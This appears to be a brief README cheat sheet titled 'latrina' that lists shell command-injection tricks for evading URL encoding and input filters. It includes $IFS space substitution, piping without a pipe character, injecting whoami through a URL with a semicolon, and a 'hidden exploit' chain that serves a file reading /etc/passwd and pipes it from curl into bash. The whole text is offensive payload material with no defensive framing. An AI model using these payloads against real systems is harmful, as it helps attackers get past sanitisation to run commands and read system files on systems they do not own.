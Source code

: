 # latrina
bypass url encoding for nontrivial shell commands and other copy-paste nightmares

# cheatsheet  
#### setting string variables without quotes    
`variable=('a')`  
#### separating fields without spaces 
`echo$IFS$a`
#### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a` 
#### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
#### starting code execution in a url without ampersand
`curl http://localhost/;whoami`
#### redirecting to a hidden exploit  
`mkdir bin;echo "cat /etc/passwd/" > bash; darkhttpd .`  
`curl -s http://localhost/$0 | bash`
